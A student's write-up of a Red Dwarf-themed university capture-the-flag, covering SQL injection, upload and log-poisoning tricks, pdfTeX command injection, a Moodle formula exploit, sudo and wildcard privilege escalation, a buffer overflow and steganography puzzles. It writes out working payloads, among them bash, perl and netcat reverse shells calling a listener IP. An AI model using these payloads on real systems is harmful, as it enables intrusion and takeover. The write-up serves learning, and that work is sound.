





Over xmas 2019, I took part in a CTF made by my university. The following are the challeneges I overcame and the things I learned whilst doing so.

*This is a Red Dwarf themed CTF, if you don't know what that is, I highly suggest you watch it*

## Science Room 1:
The first was a login screen that I had to find a way to get around...

Turns out that this login form is vulnerable to a simple SQL injection attack.

Putting `admin' or '1'='1` in both boxes logged us in and gave us the flag!
This worked since 1=1 is always true so then the verification is never made, this should work if sql injection is possible.

- Sanitise user inputs.

## Science Room 2:
I am greeted with the same login screen as before, but something has changed...

Logging in the same way  as before gave me a clue for the user creds.
_Username is 'MrFlibble'_

But what if I need the password?

Taking a look at the http-post form properties in source code, can see the data that is submitted with the form.

The failure condition (text that appears when login fails) is "Login Fails" and we know the password is in the top 10k list.

With this information, we can craft a hydra query to brute force the password.

And woo hoo! We got the password 'midnight'

Now we can SSH into the machine with username mrflibble and password midnight.

- You should limit the amount of password attempts before a lockout.

To get root, I used the `sudo -l` command to see what things I can run with elevated privileges...

We are in luck! It seems we can run netcat with root privileges! 

Now all I needed to do was run the following command on the target machine and set up a listener on my own machine to get a reverse shell...

And we got root! :) 

## Science Room 3:
The login screen has been changed again, it now says we have 100 attempts before we are logged out and the login process is separated into two seperate pages, one for username and password and one for entering a pin code... how will we get around this one?!

It seems like they want us to make an efficient algorithm to brute force the passwords... but sql injection is viable as I am still able to log in with `admin' or '1'='1`.

`' UNION ALL SELECT 1,2,3 –` Returns 2, so the second argument(middle one) will only be returned. I need 3 args since php expects 3.

Use concat to return multiple things at once...

`' UNION ALL SELECT 1, CONCAT(column_name,' ',table_schema,' ',table_name),3 FROM information_schema.columns WHERE table_schema='maindb' -- `

Gives us the table and column name we can use!

Therefore column name is id, table schema is maindb and table name is hardusers.
Now we can find a way to select the usernames and passwords from the harduser table...

`' UNION ALL SELECT 1, CONCAT(name, ' ',password),3 FROM hardusers -- `

Gives us some creds :)

Strangely, this login doesnt work... try changing the id(since id is the col number) to see if there are more creds... and there are! Using the following command with id=2 and id=3 in the sql statement I was able to get 2 more sets of creds:

`' UNION ALL SELECT 1, CONCAT(name, ' ',password),3 FROM hardusers WHERE id=2 -- `

_Todhunter Abs01ut3Sm3gh3ad_
_Lanstrom aA12!^gtfo!_

I was able to ssh into the machine as the Lanstrom user...

Checking `sudo -l` , cant run sudo with any commands...
In /home directory there is also a user named todhunter.
Change user to Todhunter with `su todhunter` command and use password I got earlier.

As todhunter user, we can execute the timeout command as root.

GTFO bins → `sudo timeout --foreground 7d /bin/sh`
Get root! :D

- SQL injection can be very bad.

## Starbug 1:
In this site, we can upload images and view it in the star charts...
Maybe we can bypass the image upload to upload a php reverse shell. Uploading it straight up doesn't work and just renaming the file also doesn't work.

We can use the url to view files on the server by adding the file to the end... however, it adds .php to everything we put in so I had to add a null byte to the end. (%00)

Manage to get php reverse shell to upload by putting _GIF98a;_ to start of file and renaming to _shell.php.gif_.
This tricks the uploader into thinking that my reverse shell file has GIF encoding.
Point the reverse shell at my machine.

The file name changes as seen here, we can execute the shell by viewing it through the url and adding the null byte to the end...

Looking through pspy, a command runs every minute or so that copies root.txt from root directory to xxx then deletes it again.

In the _backup.sh_ file:

Looks like a STAR bug may be involved! The * means that all files are affected  and if we add file names with – at the start, as if it was an argument for the _chown_ command, could get it to drop a shell for us.

`–reference=RFILE` (use RFILE’s owner and group rather than specifying OWNER: GROUP values) 
Make a test file and make a file named _–reference=test_. The test file is owned by me... therefore it will chown on all files in backups dir with my user and I will be able to read root.txt!

Cant use test since a test file is already in the directory owned by root!
Use another name instead...

And it worked! Get root flag.

- Check uploads thoroughly. 

## Starbug 2:
This one is the same website, but the same file upload method wont work this time. There are also log files in the system status menu that we can view:

The url include vulnerability is still here and it doesnt add .php to the end so a null byte isnt needed!

We can change the user agent in the log file with a user agent spoofer to something more useful perhaps... 
We can include the log file in the url to execute the code.

Changing user agent to `<?php phpinfo(); ?>` gives us the php info page when we execute the log file via the url. 

With this, can change user agent to something to drop a reverse shell...
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.42.5/1234 0>&1'"); ?>`
Using this as a user agent got a reverse shell dropped!

Can't read _user.txt_... check `sudo -l`. Can run _vi _ command as starbug user.

Find a way to drop a shell with vi so we can have a shell as starbug user.
Need to upgrade to terminal first...

`python -c 'import pty; pty.spawn("/bin/sh")'`

`sudo -u starbug vi -c ':!/bin/sh' /dev/null`

Got a shell as starbug user with this command... get _user.txt_ file.

Can run backup as root...
Try run backup and see what happens.

Looks like a STAR bug is involved!!
Uses _tar_ command, can drop a priv shell with the following command...

`sudo tar -cf /dev/null /dev/null --checkpoint=1 –checkpoint-action=exec=/bin/sh`

make a file named _–checkpoint=1_ and another named _–checkpoint-action=exec=/bin/sh_
Make these files in my _/home/starbug_ directory and backup to _/home/starbug_...
execute _backup_ aaaaannnnnnddddd
Drops root shell! Get root flag :)

- Use wildcard wisely, not wildly. A user can find a way to change things in unexpected ways...

## Intercept: 
This is a cipher challenge. At the start, we are presented with the following coded message:

Putting through hex decoder, get a code where I can recognise a few words but the letters are mixed up:

`V/NIADOL/OMSGEO FFK YROT NOY UIGBMIO!D//ffeeffc/486acd//aae/95ffeeff00///!/} /IGBMIO/Da55baab9/2 /OY/U7e1e7f/0 /RKTYNO9/d6f6/2 /FO/F/{S/EM/GUCHEV/NIADOL
O`

Putting through transposition cipher decoder we get this:

`/VINDALOO/SMEG_OFF_KRYTON_YOU_GIMBOID!//FFEEFF/C84A6DC//AA/E59FFEEFF00//!/}//_GIMBOID/5AB5AA9B2//_YOU/E7E1F70//_KRYTON/96D6F2//_OFF/{//SMEG/CUEH/VINDALOO_`

Seems like the letters are in order now but the words are out of order... what if a single slash (/) means same as or in the same position and double slash (//) is a separator...

For example,  _SMEG/CUEH_ means that _CUEH_ is in the same position as _SMEG_ in the sequence _SMEG_OFF_KRYTON_YOU_GIMBOID!_

Therefore the flag is:

`CUEH{ 96D6F2 E7E1F70 5AB5AA9B2}`

This is a little short... something is missing.
Replace _AA_ with  _E59FFEEFF00_ since  _AA/E59FFEEFF00_
So then `CUEH{96D6F2 E7E1F70 5AB5E59FFEEFF009B2}`
Replace _FFEEFF_ with  _C84A6DC_ since  _FFEEFF/C84A6DC_
Therefore flag is `CUEH{96D6F2E7E1F705AB5E59C84A6DC009B2}`
The challenge that was the least points took me the longest to complete... funny that.

- Ciphers are fun!

## Vending Machine:
This one allows you to input data into a pdf document... perhaps there is a way to get the commands we insert to execute. Open generated pdf in hex editor, see that html to pdf converter it uses:

Looks like it uses _pdftex_... have to insert commands in top input box since input in bottom box is sanitised.

`\immediate\write18{ls|base64 > test.txt} \newread\file \openin\file=test.txt \loop\unless\ifeof\file     \read\file to\fileline     \text{\fileline} \repeat \closein\file `

Using this command runs the _ls_ command and encodes it in base 64.

View the pdf through this error at the bottom of the page and:

Decoding from base 64 we can see that this worked! We get the listing of files in the current directory.

Use this info to drop a reverse shell in the same way... use perl reverse shell in place of ls command.

`\immediate\write18{perl -e 'use Socket;$i="192.168.42.5";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'|base64 > test.txt} \newread\file \openin\file=test.txt \loop\unless\ifeof\file     \read\file to\fileline     \text{\fileline} \repeat \closein\file`

Get a shell drop as _www-data_!
User.txt in _chocolate_ directory... `sudo -l` says we can run python as chocolate user, use this to drop a shell as chocolate and read _user.txt_!

Very nice! Now lets get root baby.
Since I need one or I cant do much else, spawn a tty with python:
`python -c “import pty; pty.spawn('/bin/sh')”`

Cant use sudo command as chocolate without password...

Search for SUID files → `find / -perm /4000`

there is a binary in _/bin/_ called _BOF1_... perhaps buffer overflow is involved?

This program asks for a password but the password is randomized each time. After we enter enough A's we get a seg fault which means buffer overflow is possible!

Copy program to local machine by encoding to base 64 and decoding.

With enough A's entered we get:

After 40 A's entered we get a sensible address, 0x0804000a in ?? ()
Therefore, I think the buffer has a size of 40...

`objdump -d` on _BOF1 binary_, login success function at *0x08049216*
In little endian this is:
*\x16\x92\x04\x08*

`python -c "print 'A' * 40 + '\x16\x92\x04\x08'" | ./BOF1`
This prints 40 A's then adds the address of the login success function to the end. 
This gives us the access granted message!

No shell is dropped though... program closes straight after.
Use python2 to write the output to evil.txt file 

Then use cat to pipe the contents of _evil.txt_ into the binary and the shell stays open this time!

Use – with cat to pipe stdinput into the binary.

And we got root!!! Wow, my first buffer overflow :)

- Careful of seg faults... Watch out for user input!

## Marking Time:
With this challenge, we get a set of creds at the start:

We also have a picture of a monitor with a postit note on it...

Looking at the ip address, all we get is a blank web page that has text “it works” on it... checking robots.txt we get something nice :P

Go to working directory and get a marking.zone file.

A Domain Name System zone file is a text file that describes a DNS zone. A DNS zone is a subset, often a single domain, of the hierarchical domain name structure of the DNS.

Think of this as a result of a zone transfer... 

the hosts file on linux contains a list of host names and ip addresses. It is used to translate hostnames into ip addresses... when you look up a domain, the system will look into the hosts file to get the appropriate ip needed to connect.

Adding `192.168.72.118       moodle.marking.ioc` to the hosts file and typing _moodle.marking.ioc_ in our browser gives us the moodle web page...

Log in to moodle with user _rimmer_ and password _G@zpach0_

There doesnt seem to be much we can do as a student user, but as a teacher we could do some damage... teacher is todhunter so try login with user _todhunter_ and password _IAm@F1sh_ (from the postit note) 

Yay! We are now logged in as a teacher and can do some interesting things...

There is a vulnerability in moodle to do with the way it handles maths formulae in calculation type questions... we can make our own question and add some code in place of a formula...

Add a new question to the existing quiz of type 'calculated'.

Input malicious code in maths formula such as `/*{a*/`$_GET[ethan]`;//{x}}`

save changes
next page

Set up listener on local machine port 1234.
At end of url, add `&ethan=(date; nc 192.168.42.5 1234 -e /bin/bash)`
Get a shell!

In _hollister_ directory there is _user.txt_ we cant read and the users private ssh key.
Save _id_rsa_ to local machine. SSH into target as user _hollister_ with the key, making sure correct permissions are set on the key (chmod 600).

No password needed. Get user!
There is a program with SUID bit set in user directory. Save to local machine for inspection. Seems to read the contents of the user.txt file.

Looks like it uses cat to read the file, check strings...

It doesnt seem to specify the path for the cat command! Looks like we could do some path poisoning here...

Now we have changed it so that it checks the current directory for binaries first... now lets make our own file called cat and have /bin/sh inside it to give us a shell as root when it is accessed by the checkfile binary!

Make sure to give evil cat execute perms...

Boom! Get root and another one done.

- Don't play yourself, watch the PATHs.

## Martryoshka:
This one seems to be a steg challenge, a martryoshka is some sort of russian doll thing with more of those little dolls inside of it.

It starts off with an image that has a qr code in it, needs to be changed a bit so that it can be read properly since it cant be read very well on a dark background. Change exposure with an image editor like gimp to make it white and we get our first flag!

Using binwalk on the original image we get a few files hidden inside the image.

There are 2 other images and a flag.txt file which is inside the zip but locked with a password... having a look at the 1F7A0 image, we see an interesting roadsign...

Using exiftool we can find the coordinates for this image and find it on google maps!

The road ended up being headstone road. Unlock the zip file with password _headstone_ and get second flag!

The second image looks to be some kind of histogram thing... 

Following a hint on discord, I searched google for this image:

I got back, Piet Mondrian Composition with Yellow, Blue and Red.
Turns out, there is a programming language called piet named after this bloke that makes programs look like abstract art.

On this website, it lets us upload a piet program image and then executes it to display the result!
https://www.bertnase.de/npiet/npiet-execute.php 
Brill! We get another flag:

Now one more to go... executing binwalk on the piet image will give us more files:

The image contains zlib files...zlib is a software library used for data compression.

Using exiftool, there is a user comment that contains the final flag:

- Steg is fun!

## Wombles:
First we are greeted to a web page in German.

In robots.txt there are some directories to check out:

_acp_ directory gives us a page with a login box in it. The other dirs are blank pages.

Hmm... nothing here really. Look up exploits for flatcore. Has XSS vulnerabilities...

Use this as my user agent:
`http://192.168.72.127/?name=`

Set up listener on local machine...

Change cookie with cookie editor addon. Can access internal page without needing login details...
Says its from _/acp/acp.php_ so try to access that...

Boom! Made it to the admin panel...
Here we can upload a php reverse shell and catch it with jumpbox...

Open rev shell from files menu and get a www-data shell!

Found openssh key in /home/32bituser dir...

Copy and paste onto local machine.
Set correct permissions for private key file then ssh into the machine with the key as the 32bituser.

Get user!
There is a _secretMenu32_ file... copy to local machine by converting to base64.

Checking `strings` on binary, got 2 flags already!

There also seems to be some functions we could access...

Very nice!
The program asks us for input at the start, perhaps we could use BOF to change the value of the instruction pointer to point to one of these other functions...

After 23 A's in the enter name part, the A's flow over into the select option part and the program shuts down since A isnt a valid option.

Seems like there is a platinum area that we should try to access too...

Putting _ziemni_ as the username gave me gold membership and a weird number of negative credits... buying more flags increased it by 5... do this a few more times and I have access to platinum area!

This gives us a few more options. Unfortunately, this was as far as I managed to get, the BOF was too hard for me. There was also another very difficult BOF challenge that I couldn't do. 

But i learned a lot! 
I was able to get pretty far in and do some stuff I've never done before, was much fun.
- Watch out for XSS, some strings can be seen even in a compiled program... no passwords in plaintext!

